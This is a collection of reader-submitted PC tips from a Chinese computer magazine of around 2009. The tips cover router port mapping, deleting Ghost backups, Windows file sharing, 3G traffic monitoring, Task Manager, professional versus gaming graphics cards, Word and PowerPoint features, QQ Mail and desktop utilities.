第二步：以比较常见的路由器TP-Link为例，如未修改过设置则在地址栏输入192.168.1.1，打开登录界面，输入默认的登录账号admin，密码admin。

第三步：在左侧点击“转发规则”，注意192.168.1.103:2229，冒号后面就是端口号，在服务端口填写2229，然后在“IP地址”后面填好电脑的IP地址，“协议”勾选ALL就行了，点击“启用”后面的复选框，“保存”完成端口映射。

小编点评：感谢赠送给我们“老编”的鼠绘签名，为防止临摹这等佳作我们就不拿出来展示了……至于稿子嘛，原文重点就是简单；别人不用去管什么端口，直接选要用的程序就OK。
（双子世纪）

## 一键Ghost备份文件的删除方法

《电脑爱好者》2008年第4期第“傻博士信箱”中介绍了如何删除一键Ghost的备份文件。我也遇到了同样的问题，下面说说解决办法。

## 第一步：分析问题

删除一键Ghost备份文件时弹出无法删除的对话框。在完全肯定磁盘未满或未被写保护且文件未被使用的情况下出现此对话框，首先考虑在“安全模式”下删除，可是试过后发现仍然不能删除；再仔细观察对话框，发现“访问被拒绝”这样的提示。为什么管理员都会被拒绝呢？是权限问题在作怪（这是《电脑爱好者》教我这样思考问题的，感谢你们，谢谢！——小编语：不用谢，坚持以为读者服务是小编一直贯彻的思想）？

## 第二步：解决问题

右击一键Ghost备份文件夹（通常文件名最后都为~1），选择“属性”，切换到“安全”选项卡。接着单击Everyone，在“允许”下面勾选“完全控制”或“修改”，单击“确定”完成操作。这时候你再试一试删除它，保准再倔的“牛”也被你治得服服帖帖。如果没有找到“安全”选项卡，可以在“我的电脑→工具→文件夹选项→查看”选项卡下，去除“使用简单文件共享（推荐）”的勾选即可。

## 第三步：总结问题

当我们遇到不能删除的文件时，一定要认真分析出现的错误提示。是需要结束相关进程？还是需要修改权限？还是需要重启电脑？还是需要通过安全模式来解决问题等等。总之千万不能被问题吓倒，更不能动不动就通过重装系统来解决问题。

小编点评：就像某位伟人教导我们的那样——发现问题→解决问题→总结问题。这样的“三段式”实在让小编钦佩无比，不仅仅告诉我们如何解决问题，还把思路说清楚了，最后还有领导专用的“总结”段落，对于这个奖项，你当之无愧！
（山西/王超）

## 新时代文件共享三两式

平时经常需要与朋友、同事分享文件，例如一首音乐、一篇文档，而在不同电脑之间的文件共享也是难者不会，会者不难。很多新手朋友可能还不太熟悉如何将自己的文件共享给朋友。其实，与朋友共享文件很简单！

### Windows XP 系统中的文件“本地”共享方法

在Windows XP系统中只支持文件夹共享，并不支持单个文件的共享，操作起来很简单：

右击目标文件夹并选择“共享和安全”，在打开的窗口中选中“共享此文件夹”，再单击“权限”按钮指定可以共享此文件夹的用户及使用权限，最后单击“确定”即可。

### Windows 7 系统中的新型共享方案

Windows 7对文件共享提供了新方法，使用起来更简单：

1. 普通文件的共享方法

在Windows 7系统中共享普通文件时，只要直接右击该文件并选择快捷菜单中的“共享”，再根据情况选择相应的分享方法。

如果只需要共享给家庭组（类似Windows XP系统中的工作组）中的成员使用，直接选择“家庭组（读取）”或“家庭组（读取/写入）”两项即可。

当然，有时候，在家庭组中可能只想将文件共享给某一个特定的朋友。这种情况下就需要借助微软针对Windows 7提供的Windows用户账户和Windows Live ID链接功能，可以将目标联系人的Windows ID链接到自己的系统账户中，这样就可以直接将文件单独共享给这位联系人而不受其他联系人的影响。实现方法如下：

第一步：单击“开始→控制面板”，打开“用户账户和家庭安全”，打开“用户账户”项，在左侧面板中单击“链接联机ID”，在打开的窗口中单击“添加联机ID提供程序”。

第二步：在打开的下载页面中点击“Windows Live”图标，在切换到的页面中的“Change Language”下拉列表中选择语言为“Chinese (Simplified)”，接下来再下载安装“wllogin_32.msi”（32位系统）或“wllogin_64.msi”（64位系统）。

第三步：重新启动系统，重新打开控制面板中的用户账户设置项，在窗口中单击“链接联机ID”，在打开的窗口中将目标联系人的Windows ID绑定进来。

第四步：直接右击要共享给其他人的文件并选择“共享→特定用户”，在打开的窗口中选择绑定的Windows ID，设置好共享的权限并直接将文件共享出去即可。这样共享的文件，只有在系统中同样使用上述链接的Windows ID的用户才可以看到共享的文件，而其他用户则无法看到，因此而达到指定共享人的目的。

2. 磁盘、文件夹的共享方法

在Windows 7系统中，磁盘、文件夹的共享方式与普通文件的共享方式有差别，在使用时需要注意：

右击要共享的文件夹或是驱动器，选择“共享→高级共享”，在打开的窗口中选择“共享”选项卡，单击“高级共享”按钮。

在打开的窗口中勾选“共享此文件夹”，设置一个共享名、指定同时共享时的连接用户数（最大为20），再单击“权限”按钮，在打开的窗口中可以指定共享的用户、权限，最后单击“确定”按钮即可。
（Dream）

## 借助“3G尺”，不让网费超标

3G上网真快，嗖的一声，几兆大小的文件瞬间就下载到本地硬盘中。3G上网的确是快，但是3G上网现在还是很贵，费用高高在上不说，动不动还会因为超过额定流量或是上网时间，在原来的套餐收费基础上另外再收费，真是掏你钱没商量。即使仍在使用GPRS方式上网的朋友，也经常会在上网冲浪过程中忘记流量的消耗，最终费了大笔钱。因此，借助一把“3G尺”来控制流量或是上网时间很有必要。

### 3G 上网，用好客户端自带的“3G尺”

3G上网时，一般都需要运行特定的客户端软件。例如中国联通3G上网卡都会自带上网客户端工具，同时，客户端工具中一般也会自带流量、上网时间监控功能。用好此功能也可以达到控制网费的目的。我们就以中国联通3G上网卡为例：

运行中国联通3G上网客户端软件后，直接右击托盘区中的程序图标并选择“数据记录”项，在打开的窗口中便可看到数据统计数值了。

有了这把“3G尺”，再根据自己办理的3G上网套餐的流量或是时长值即可控制上网，在超标时就可以做到心中有数，若不是必须要上网，可以断开网络避免超出套餐中规定的流量或是上网时长了。

小提示：
若使用的是包月套餐，当到下一个月时，还可以直接通过“重置”按钮将之前记录的所有数据清空，包括月记录和年记录。

假如你的3G上网软件并没有提供流量统计功能，本着就简避繁的原则，也可以直接使用系统自带的流量检测功能来实时查看当前网络流量，以做到心中有数，避免超过了流量：

按Ctrl+Shift+Esc打开任务管理器，选择“联网”选项卡，在下面的流量监控列表中便可看到具体的流量数了。假如没有显示流量值，请单击菜单“查看→选择列”，在打开的列表中勾选“发送字节数”和“接收字节数”这两项，而上网流量则是发送与接收流量的总和。

### 自制“3G尺”，功能更强大

但是，有些3G上网工具自带的统计工具不是很方便，有些甚至不带流量监测功能，可以自制“3G尺”，用起来往往更方便，借助Networx自制“3G尺”：

从 http://www.newhua.com/soft/59445.htm 将Networx下载并将其安装到系统中，运行后便可直接从主窗口中看到当前上传、下载的流量值了。

如果仅此功能的话，那与3G上网自带工具相比就没有优势了，而它还可以设置提醒，例如开通的3G上网套餐每月限制5GB流量的话，则直接将提醒触发器设置为该流量值或是相应的时长值，当上网总流量或是时长达到指定的值后，软件便会自动提醒：

右击托盘区中的程序图标并选择“设置”，在打开的窗口中选择“通知”选项卡，接下来就可以根据包月套餐来设置触发提醒的流量控制值或是时长控制值来设置。例如设置当上传、下载数据的总流量达到4.5GB时弹出流量图提醒，就可以按的方法设置：

除了可以弹出提示、设置提示音、运行指定的程序外，还可以直接关闭拨号连接或是关机等其他措施，达到绝不超标上网费用的目的。

小提示：
在Networx中也可以重置统计数据，这样以方便套餐用户在满一个月或是满特定的流量值时重新计数。

除了可以使用Networx来自制“3G尺”外，还可以通过从 http://dl.pconline.com.cn/html_2/1/86/id=1571&pn=0&linkPage=1.html 下载的DU Meter这款小工具来进行监控、提醒。
（Dream）

## 了解它，步入高手的殿堂：任务管理器

根据小编对周围的人调查，80%的初学者在使用了“任务管理器”后，都会不同程度的能够处理一些基本问题，只要遇到麻烦，立刻就会先按下Ctrl+Alt+Del，找它来寻求帮助。那么你是否真的了解它了呢……

在任务管理器中，估计你最常用到的就是“应用程序”、“进程”和“服务”了。正是由于此估计你会忽视后面选项卡中的内容。

### 性能：了解电脑情况

这里选项卡几乎是大多数人都会查看一下的。比如在播放高清视频时，查看一下CPU占用率（CPU使用），在感觉机器慢的时候，来看看CPU和内存是不是已被占用过多了。毫无征兆的变慢，六成是中毒了。

至于下面的一堆项目，肯定会有一些让你糊涂的。当然也不都是没用的，最起码只要不重启，“开机时间”就可以在对你老妈撒谎只玩了半小时电脑时瞬间出出卖你。

“物理内存”项：不用问“总数”就是你的总体内存，“缓存”则是被SuperFetch占用的，只要有程序一运行立刻就会被占用，为的就是提高运行速度。而“可用”则是当前未使用的。所以总的内存实际上是“已缓存”+已用的容量+“可用”。

小提示：
SuperFetch是微软在Vista中新推出的一项硬盘读取技术，预先将存在硬盘的交换文件，转到内存中去，使启动程序的速度进一步加快。它的缺点就会导致硬盘读取过于频繁，关于这个技术，可以参考2008年第21期的《揪出内贼，是谁让Vista的硬盘狂转？》。

“核心内存”其实就是Windows的核心正在使用的内存容量，分页数和未分页数可以简单的理解为虚拟内存数和物理内存数。

至于“系统”下的项目，除了“开机时间”外，基本都是一般人都用不上的东东了。

不过最下面的“资源监视器”按钮，则是你必须要关注的，这里你可以看到所有的程序对CPU、磁盘、网络以及内存的影响，对于一些比较简单的病毒几乎不必使用任何软件就可以在这里面搞定。

### 联网：发现病毒

从名字就可以看出来，这里面就是看联网情况的地方。如果这里长时间保持很高的曲线，同时你又没有进行P2P下载，机器反应又很慢，那很可能是中毒。另外现在有些病毒在入侵后，还会在这里添加项目，比如“tap-win32 adapter v8-数据包计划程序微型端口”。

估计很多人觉得奇怪，为什么自己用的1Mbps ADSL，但在性能里面看到的“网络应用”中只有1%。其实通过你的线路速度就可以算出来，你的100Mbps网卡1%正好是1Mbps，也正好是你的ADSL速度。

而如果你是4Mbps的宽带，而网络应用一直保持在30%左右，那么则说明你的网卡是工作在10Mbps的。有了这个，也就能检查一下你的网络环境是否处于最佳状态了。

### 用户：被遗忘的角落

当有人连接到你的电脑，他就会在这里出现。是一个几乎被人遗忘的地方。当然如果怀疑自己的电脑被人入侵了，不妨看看这里是不是有其他用户连接到你的电脑了。
（BUFF）

## 3000元的3D动画制作电脑？专业显卡、游戏显卡傻傻分不清楚

“我想攒台电脑，3000块钱的预算，主要是打打字、做些3D图形处理等等”。对于这种菜鸟问题，小编经常了解到亲友这种“可怕”的攒机需求。先不说打着学习旗号玩游戏的“游侠”们，但看他们的需求就知道，他们还不知道专业显卡和游戏显卡的区别。

### “专业”、“游戏”傻傻分不清楚

像什么我们常看到的 Geforce 130M、Radeon HD 4830这类的显卡型号其实全部都是游戏显卡，对于搞工业设计、3D动画的人来说它们都是“业余卡”，真正的专业卡都被冠以Quadro FX、FireGL等名称。大家看到的哈里波特的魔法效果、冰河世纪3的电影、各种3D网游中的角色、场景几乎都是源自于专业显卡，完全不是你家里那块高档的GT280可以完成的任务。

|        | 价格       | 反锯齿硬件加速功能 | 驱动程序                     | 售后服务                     |
|--------|------------|--------------------|------------------------------|------------------------------|
| 专业显卡 | 贵得离谱   | 快                 | 针对3D动画处理软件进行优化   | 提供专业解决方案及服务       |
| 游戏显卡 | 相当便宜   | 慢                 | 只针对显卡芯片               | 只针对产品提供服务           |

### 专业显卡你需要吗

就像画笔和Photoshop一样，专业显卡肯定是有市场需求的，所以才会出现。而对于那些平常最多的视频应用就是转换个MP4用的视频或是处理个DV带，花数千上万元来购买专业显卡完全是吃饱了没事干的。只有在专业领域，专业显卡的优势才会出来，要知道专业显卡最大的特性就是“稳定”，在3D动画领域中最消耗时间的就是“渲染”这一步骤，就像冰河世纪动画中那样，每帧平均渲染时间为15小时（优化前为100小时），每秒30帧，你想想一部电影需要多少小时才能完成。如果渲染到14小时，你的显卡突然出现问题、报错、程序退出，你杀人的心估计都有了，而专业显卡则不存在这个问题，它的最大特点就是稳定性极强！加上在专业软件中的速度优势，想不“专业”都难。

### 亮相大比武

光说不练那是假把式，所以就有了下面的测试成绩，拉出来给大家看看，里面的那些maya之类的东东即便是菜鸟也能知道是什么吧。当然，对于要学习3D动画软件的人来说，游戏显卡也可以满足（当然是通过驱动修改为专业显卡了），只是你想用这台电脑从事3D动画相关的工作，还是打消这个念头吧……不过要是交个作业什么的，用游戏卡也没问题，毕竟简单的渲染除了速度慢点外，一般的游戏显卡还是能够应付的。

### 你知道吗？

ATI和NVIDIA两大阵营中的专业显卡

- ATI的专业显卡主要有FireGL（针对OpenGL进行优化，对3D动画软件支持更好）、FireMV（MV为Multi View，主要是针对多显示设备环境，比如医院、股市等）、FirePro（加入了DirectX的支持，分为2D及3D两种，未来两至三年内会取代FireGL及FireMV）。
- NVIDIA专业显卡有Quadro FX（对应FireGL，主要针对3D动画制作者）、Quadro NVS（对应FireMV，满足多路显示器输出的需求）。
（BUFF）

|              | ATI        |               | NVIDIA     |               |
|--------------|------------|---------------|------------|---------------|
|              | ATI 4870   | FirePro V3700 | GTS250     | Quadro FX580  |
| 专业软件     | Maya       | 22.31         | 66.11      | 23.45         | 60.06         |
|              | 3DSMAX     | 14.81         | 31.71      | 8.67          | 32.45         |
|              | Proe       | 9.65          | 28.21      | 9.79          | 35.89         |
| 游戏测试工具 | FurMark noAA | 94          | 7          | 60            | 8             |
|              | FurMark 4×AA | 38           | 4          | 15            | 8             |
|              | Lightsmark 2008 | 417       | 49.9       | 539.1         | 115.7         |
| 游戏测试     | 最后的神迹 | 86帧          | 10帧       | 81帧          | 22帧          |

## 扔掉稿纸 文档修改更便利

在无纸化办公的今天，文档的审阅如何体现自动化和人性化呢？今天我们就来看看阿峰和小薇是怎么做的吧。他们用好了Word2007的批注和修订，文档审阅修改不是一件困难的事情，处理起来也变得轻松合理了。

### 实例一：批注修订，保留原貌

阿峰是一家公司的经理，平时主要就是审阅各部分发过来的计划书，对计划书进行纠错并给出相应的建议。如果直接在原文档上删除修改，则下属不容易看到文档改动的地方，因此最好能在保留原文档的基础上进行修改，此时最好使用Word的批注和修订功能。

#### 第一步：轻松批注

用Word2007打开计划书，切换到“审阅”选项。将光标移到文档中要给出建议的地方，单击“新建批注”按钮，在该处右侧会出现一个批注框，在里面可以输入批注的内容。在添加多个批注后，会自动在批注者姓名后（zjf）加上1.2.3，这样可以很清楚地获知自己加了多少个批注。如果对自己的某个批注不满意，可选中该批注，单击“删除”按钮即可清除；如果要删除文档中所有批注，单击“删除”下的“▼”按钮选择“删除文档中的所有批注”即可。

> 单击Office按钮选择“Word选项”，切换到“常用”选项，在“对Microsoft Office进行个性化设置”中可以修改批注者姓名，其实就是Office的用户名。如果是不同的人对文档进行批注，批注者姓名可以从这里修改，这样便于别人获知是谁的建议。

#### 第二步：快速修订

如果文档中某些地方要直接修改，单击“修订”按钮后对文档进行修改，此时可以看到删除的文字并没有消失，而是在上面加上了删除线，添加的文字会接在删除的文字后面。如果仅仅是修改了文字的属性（如：字体、字号等），在文档右侧会显示相应的格式。

属性（如：字体、字号等），在文档右侧会显示相应的格式。
小提示：
单击“修订”下的“▼”按钮选择“修订选项”出现对话框，在这里可以对修订的各种属性进行设置，比如：插入内容后的格式（如：加上单下划线或改变颜色等），删除内容用什么标记（删除线或隐藏或双下划线等）。
阿峰根据实际情况以及自己的想法，对文档加上批注修订后，就可以转发给下属，让他们根据上面的要求提示进行相应的修改。

### 实例二：修改建议，一目了然

小薇是一个部门的策划，平时常常要汇总部门同事的意见，整理成文稿，交给公司经理审阅，然后根据经理的修改和建议，对文稿进行重新整理完成最终稿，因此她通常要二次处理批注修订过的文稿。

#### 第一步：看清文档的改变

打开一份批注修订过的文档，切换到“审阅”选项，单击“审阅窗格”下的“▼”按钮选择“垂直审阅窗格”，在文档的左侧会出现窗口在这里列出了文档中的所有批注或修订，单击左侧的批注或修订，右侧的文档也会自动跳转到相应的地方。

#### 第二步：轻松快速完成修改

对于文档中的修订处，如果觉得可以接受，可单击“接受”下的“▼”按钮选择“接受修订”，此时会自动用修订内容替代正文，当然了如果你是一个绝对服从上级的人，可选择“接受对文档的所有修订”；对于不合适的修订，可单击“拒绝”的“▼”按钮选择“拒绝修订”。另外在根据批注修改时，首先要取消选择“修订”功能，否则又会显示为批注。

> 如果一篇文档分别交给了多人进行了审阅，就会得到多份审阅后的文档，此时可使用“比较”和“合并”功能，比较审阅后文档不同之处，也可以将审阅后的多份文档进行合并，将所有的批注建议合并到一个文档中。单击“比较”下的“▼”按钮，选择“比较”或“合并”会出现对话框，选择文档，再设置相应的属性，最后单击“确定”按钮即可新文档。
（周建峰）

## 快速访问桌面项目，无招胜有招

2009年15期《快速回到桌面，我有新招》介绍了一种快速切换桌面的方法——借助工具软件DeskTopmost，在桌面和多个应用程序窗口之间来回切换，而不需要一一打开被最小化的程序窗口。其实，借助Windows快速访问工具栏，不需要回到桌面，就可以快速打开桌面的各种应用程序，具体操作方法如下：右击任务栏空白处，执行“工具栏→桌面”命令，系统会自动在任务栏右侧添加一个快速访问桌面项目的按钮“>>”，单击该按钮，不仅可以快速访问桌面上的应用程序项目，同时可以通过“我的文档”、“我的电脑”等项目打开更多的个人文件。此外，我们还可以将个人最为常用的应用程序链接添加到任务栏左侧的快速访问工具栏中，以方便程序的打开。

> 小编点评：
看来对这篇文章受到很多人的关注，上期就有一位投稿了，这期又来了一位。不用装软件，而且技巧也非常方便，特此颁发——最佳环保奖！
（江苏/姚文连）

国庆旅游归来，旅途中拍了大量的照片，小薇决定把照片做成多媒体相册，可作为一个办公族，他只对Office比较了解，对其他的软件了解甚少，因此他决定选用PowerPoint制作一个多媒体音乐相册。

导入照片。打开PowerPoint2007，单击“插入→相册→新建相册”，单击“文件/磁盘”选择用来制作相册的照片。在“图片版式”中设置每页的图片显示数量，“相框形状”可给照片加上边框或文字说明。完成后单击“创建”按钮自动建立相册。

修饰照片。从第二页开始是照片，选中照片单击“格式”，对图片进行修饰，如：调整亮度、对比度、添加个性化边框，设置阴影等。

添加音乐。切换到第一张幻灯片，单击“插入→声音→文件中的声音”，选择一首歌曲作为相册的背景音乐，出现对话框单击“自动”，让背景音乐自动播放。单击“动画→自定义动画”，右击音乐选择“效果选项”出现对话框，在“停止播放”选择“在100张幻灯片之后”(假定相册共100页)，这样音乐就会一直播放到相册结束。

设置切换。单击“动画”，在切换效果中可选择各种转场效果，为当前照片加上切换特效。如果懒得一张一张地设置，可选择切换效果中的“随机”，再单击“全部应用”，此时会随机给照片加上切换效果。

自动播放。默认情况下，相册播放时需要手动操作才能切换到下一张。如果要让相册自动播放，可单击“幻灯片放映→排练计时”开始播放幻灯片，手动播放相册至结尾，此时会提示“是否保留幻灯片排练时间”，选择“是”，这样以后相册播放时就会按照手动操作的时间间隔自动播放相册。

发布相册。相册做好后，单击“Office按钮”选择“另存为→PowerPoint放映”，可将相册保存为放映文件。选择“发布→CD数据包”，单击“选项”选择“嵌入的Truetype字体”，可避免字体变形。单击“复制到文件夹”可将相册及其所有的播放支持文件复制到某个文件夹中，这样在没有安装PowerPoint的电脑上也能正常播放。单击“复制到CD”，可将相册直接刻录到光盘上，这样更加便于收藏。(周剑峰)

## 用好“全能”的QQ邮箱

### 嫁接邮箱多快好省

我是个懒人，最讨厌搞三五个信箱挨个儿登录收信了，这也就是一直没有开用QQ邮箱的原因。相信跟我一样的兄弟不在少数，所以开完QQ邮箱，第一件事就要设置接管我的其他邮箱。

- ① 登录QQ，点击面板上的信封图标进入邮箱，单击“其他邮箱”，然后输入其他邮箱账号、密码及POP端口，再在下方进行属性设置，最后单击“确定收取”按钮完成接管。
- ② 如还需进一步增加其他邮箱，可以在“其他邮箱”页面右上侧点击“管理其他邮箱”，跳到新界面后点击“添加其他邮箱账户”，之后步骤如①。
- ③ 为了防止发邮件的时候搞混邮箱，可以给每个邮箱账户设置单独的个性参数，如昵称、签名、皮肤等，点击“设置→账户→设置→该账户使用自己的发信设置→确定”。在写、发邮件时一定要选择“发件人”，别用错了发件人信箱。
- ④ 如要取消接管某个其他邮箱，点击“设置→其他邮箱→删除”即可。

小提示：设置一个好记的QQ邮箱用户名 QQ邮箱的用户名默认是用你的QQ号，对别人来说比较难记。可以在进入邮箱后，单击“注册英文邮箱账号”，根据提示进行设置，这样一个邮箱就可以拥有两个邮箱名了。另外，如果担心邮箱中的隐私会被别人窥视的话，可以给QQ邮箱设置独立的密码，这样即使QQ密码被盗，QQ邮箱还能继续使用。进入邮箱后，单击“设置→账户→设置独立密码”输入新的密码。

### 笨笨，别忘事

虽然提醒功能在很多邮箱里都有，但是QQ邮箱中提醒功能的设置比较简洁明了，但不足之处是提醒的“力度”不够，仅仅是自动发信。输入如会议、看书、联系某人等内容，并设置提醒时间，之后再设置“重复提醒”的模式（不重复提醒、每天提醒等），单击“确定”。这样到了指定时间，即会收到提醒邮件。

### 榨取群邮件的多余价值

群邮件顾名思义就是发给QQ好友群中的成员的（目前的缺点是只能发给所有某群的成员，不能“挑剔”），但由于群邮件中还有一个“投票”功能，所以我们可以利用它来做一些事情。比如你想搞个群友聚会，就可以通过这个方式来看看有谁想参加了。

- ① 单击“群邮件→写群邮件”，在QQ群中选择一个群；单击“投票”，下方会出现投票设置面板，输入主题和选项，并可单击“增加一项”增加新的选项框；完成后单击“发送”即可。
- ② 群成员在收到邮件后，可以投票，也可以查看投票情况。现在美中不足的是，还不能看是谁投了哪个选项的票。

### 用QQ邮箱打造免费公司邮箱

现在免费的邮箱功能比较强大，操作也十分方便，而空间商提供的域名邮箱却是功能简单、垃圾邮件很多，使用起来很不方便。最近QQ邮箱推出了一个域名邮箱功能，可以给我们的QQ邮箱加一个域名邮箱的地址，可以用公司的域名邮箱在QQ邮箱中收发邮件，而且它的使用是免费的。

- ① 点击“设置→体验室→域名邮箱”服务，按提示进行操作，输入域名、选择域名提供商，如不能确定就选择最后一个。
- ② 进入“验证域名的所有权和设置MX记录”这个环节了，看清楚页面上的验证步骤，再进入自己域名的管理页面，按提示操作就可以了。如不清楚你的域名管理页面，可以去购买域名的服务商那询问一下。
- ③ 域名通过验证后，在QQ邮箱左上角点击“管理域名邮箱→成员管理”，开始设置管理员账户，账户名称就是域名邮箱的前缀，它默认绑定了你的QQ号码，之后设置普通成员的域名邮箱，点击“添加成员”，输入域名邮箱的账户和要绑定的QQ号码（该号码需要开通QQ邮箱），完成后点击“确定”，该号码的QQ邮箱即会收到激活邮件，激活后就开通了。

小提示：在这里我们可以设置最多10个成员的域名邮箱，每个域名邮箱都需要来绑定QQ号码。另外，为了方便以后成员用户使用这个域名邮箱，可以在“http://mail.qq.com/domain/你的域名”中直接进行登录，在登录页面中输入域名邮箱的账号，密码是绑定的QQ号的密码。当然，我们也可以在QQ邮箱中直接切换到域名邮箱，点击上面导航栏中的邮箱名称就可以了。(江苏/周建峰 云端漫步)

## 绝对控制！将桌面作用发挥到极致

打开电脑主机后，后面使用电脑过程中，都是盯着显示器了，而桌面则是最常打交道的一个地方。多数朋友只是在桌面上放一些程序快捷方式图标，或是放一些常用的文件，其实，桌面可以做很多事情，千万不要只用这把杀牛刀来宰鸡、切菜啊。

### 巧借外力，轻松制作绿色日历

假如嫌上面的方法繁琐，下面的方法可能更适合你。无须任何操作，运行一次软件，它会自动将当前月历添加到桌面壁纸，成功添加或是更新月历信息后，它会自动退出，不占用系统资源。从http://www.onlinedown.net/soft/82577.htm下载这款小工具，解压后直接运行即可，它会自动在桌面添加月历。值得一的是，程序只是在每天第一次开机的时候自动更新一下日期，然后自动退出，完全不必担心它会消耗系统资源，这项设计非常具有特色。

小技巧:别让休眠影响日历 现在不少朋友都喜欢使用休眠功能，而该软件的工作原理是在系统启动时随系统启动并完成当前日期的更新，之后再退出，而当休眠唤醒时，软件得不到运行的机会，因此会出现日期不符的情况。这种情况下可以右击软件并选择“发送到→桌面快捷方式”，接下来再右击桌面上创建的快捷方式图标并选择“属性”，在打开的设置窗口中选择“快捷方式”选项卡，直接在“目标”框最后添加“ -Auto”（-之前有一个空格），单击“确定”。休眠唤醒后直接运行桌面的程序快捷方式即可重新更新日期并自动退出了。

### 挖掘潜能，利用桌面空白

只要你安装的是Windows Vista或是Windows 7系统，系统自带的桌面小工具就可以派上用场了。以Windows 7为例，可以将天气预报、日历及更多的小程序放到桌面上来。例如，平时喜欢看新闻，那就可以将RSS阅读工具添加到桌面上，日后看新闻就方便多了。单击“开始→控制面板”，选择“程序→桌面小工具→向桌面添加小工具”，找到“源标题”并双击将其添加到桌面。当然，还可以下载更多实用的桌面小工具，只要点击窗口中的“联机获取更多小工具”，在打开的页面中便可打开一个含有多种小工具的页面，点击“下载”按钮将它们下载并安装到系统中，然后在窗口中将它们添加到桌面即可。

### 有趣桌面工具推荐:

- ★Windows XP系统没有自带桌面小工具，不过，可以通过安装类似功能的软件来实现，例如“八戒桌面小工具”(下载地址:http://www.newhua.com/soft/57088.htm)就是一个不错的选择。
- ★360Desktop(下载地址:http://www.newhua.com/soft/87706.htm)，这款小工具可以让桌面具有360度旋转的功能，因此，桌面的可利用面积就扩大了几倍。同时，还可以实现360度桌面背景效果、安装特殊功能的桌面小工具。
- ★虚拟桌面(下载地址:http://www.newhua.com/soft/17119.htm)，这款小工具可以虚拟桌面(最多支持9个虚拟桌面)，借助它可将应用程序、游戏、文档等不同类别的对象放到不同的桌面中，不仅仅是桌面空间瞬间放大了9倍，同时也保持了使用电脑过程中高度的简洁性。(dream)

## 找文件不一定非要搜索

现在的硬盘容量越来越大，好处是不少，但是在这海量空间中找自己想要的文件经常成了很多朋友的难题。其实，掌握了好方法、好技巧，不一定非要用搜索工具，从海量硬盘中找文件犹如探囊取物。

### 常用文件，取名有讲究

有的人有一个好名字，大家很容易记住他，而电脑中的文件名也一样，如果取个科学、合理的名称，日后查找时就很方便。譬如用来存放音乐文件的文件夹，用“歌曲”或是“music”来命名比用其他名字容易找。此外，如果在同一个文件夹下有很多文件，而经常使用的几个文件如果在其名称之前添加1、2、3或是a、b、c这样的前缀，这些文件将会自动靠前站(前提是文件排序规则为按文件名排序)。
除此之外，以后要找文件时，打开这些文件所在文件夹时，直接按下1、2、3或是a、b、c就可以快速找到它们了。

### 常用文件夹，用颜色就能区分

在整齐划一的军队队伍中，如果有一个人穿件其他颜色的服装，一眼便可看到他。假如在众多文件夹中，给那些常用的文件夹化化妆，给它们换个文件夹图标，或是添加个不同的颜色，以后打开也可以方便地找到它们。

#### 1.更改文件夹默认图标

右击文件夹图标，选择“属性”，在打开的窗口中选择“自定义”选项卡，单击“更改图标”按钮，在打开的窗口中选择一个喜欢的图标即可。
这样，日后在打开该文件夹后，由于常用的文件夹与其他的文件夹图标大不相同，便能一眼识别了。

小技巧：
系统提供的最近文件功能，对于最近经常操作的文件夹、文件都可以立即找到：单击“开始”菜单，选择“我的最近文档”即可看到。此外，在打开、保存文件时打开的对话框中，也可以通过最近访问的位置来快速找到常用文件夹。此外，很多软件也提供了类似功能，例如播放器、Office等。

#### 2.为文件夹添加不同颜色更醒目

假如你不想通过更改文件夹图标样式，也可以通过给文件夹更换颜色来达到与其他文件夹区分的目的，而且操作还相对简单些。
第一步：先从http://www.onlinedown.net/soft/41567.htm下载这款可以支持Windows 2003及以前版本系统的小工具，将其安装到系统中后即可给文件夹更改颜色了。
第二步：右击文件夹，在弹出的快捷菜单中便会看到“文件夹染色”选项，选择后会在子菜单中看到多种颜色项。
选择一种颜色后即可立即将该文件夹设置为指定的颜色了，如果嫌默认提供的颜色少，还可以通过“自定义”项来设置其他颜色。

## 本是同根生 为何数值不一样

这里要先说明一下，虽然你按照品牌机的配置攒的电脑，但同样档次的产品，品牌不同，性能上就会略有差距。比如同样的GTX 282，华硕、技嘉、索泰这样的大厂和三流山寨厂商生产出来的产品在性能上肯定是不同的。并且有些可能是市场根本没有的型号，所以在攒机时，还要注意所用产品的品牌。
各位老编，我最近攒了一台电脑，基本上和某品牌机的配置相同，可是测试数据和品牌机的差别有点大，这是怎么回事？
具体到测试成绩，能够影响的因素有很多，比如系统是否超频、节能模式是否开启都会影响测试性能。
为了兼容性或节能需要，BIOS里面还保留着一些“没必要”的项目开关，其中也有关于硬盘的项目。

比如C1E和EIST (Intel平台)、Cool'n'Quiet (AMD平台)，若它们都开启着，那么就设置为Disable再进行测试。
如果这样跑出来的成绩仍然不够理想，那么如果你的硬盘比较旧，可以换一块新硬盘再测试，要知道硬盘对整体的测试影响是非常大的，硬盘不好的话，整体的速度都会慢。这也就是为什么很多人都在追求SSD的主要原因。

小提示：转换接口=减速接口
现在的硬盘多是SATA了，但使用IDE接口的老电脑(尤其是为了下载用而更换硬盘的老电脑)就需要用转接卡来转换，一般来说价格越便宜对性能影响的越大。这也导致了测试数据的不准确。

## QQ表情快搜索

在2009年第10期的《眼睛一闭一睁，表情就打出来了，hang》一文中，使用软件辅助搜寻表情的方法。其实，在最新的QQ2009 SP2中，已内置了这项功能。在聊天窗口中点击表情栏，并输入要搜索的表情的文字注释，这时，程序会调用搜搜进行搜索，并反馈结果。然后，我们就能使用可爱的QQ表情了。
小编有话说：“博”可以让人浮想联翩的一个字，但多和“大”、“广阔”联系在一起，没想到居然来了个“短”稿子，实在让人不爽呀！
(博博)

## 《不同的页面，不同的水印》的延伸

我看了2009年第13期的《不同的页面，不同的水印》。从这篇文章中我学到一个技巧，可以用来解决不同页面设置不同的页码，下面我们来看一个例子。
有一篇文档，它的封面、目录不要求设置页码，只要求对后面的内容进行页码设置。这个问题看起来有点复杂，但我们运用《不同的页面，不同的水印》里面的一个“分隔符”技巧就很容易解决这个问题了。
第一步：因为封面、目录不要求设置页码，所以直接把光标放到目录页面的末尾，然后点击菜单栏的“插入”，在弹出的下拉列表中选择“分隔符”，在弹出的窗口中，勾选“下一页”，然后点击“确定”。
第二步：点击菜单栏的“视图”，在弹出的下拉列表中选择“页眉和页脚”，在弹出的窗口中，点击“链接到前一个”按钮，然后把光标放到内容的第一页的页脚处，点击“设置页码格式”按钮，在弹出的窗口中，勾选“起始页码”，在其右边的框内输入“1”，点击“确定”，接着点击“插入页码”按钮，页码就出现了，最后点击“关闭”按钮，退出，就完成了对页码的设置。

小编点评：正所谓“老生长谈”，谈着谈着就会“尊老”了。这篇文章中的应用估计有一半以上的读者能倒背如流了！如果还有不会的，抓紧复习一下吧。写个简历、论文、作业、报表、回忆录都用得上！
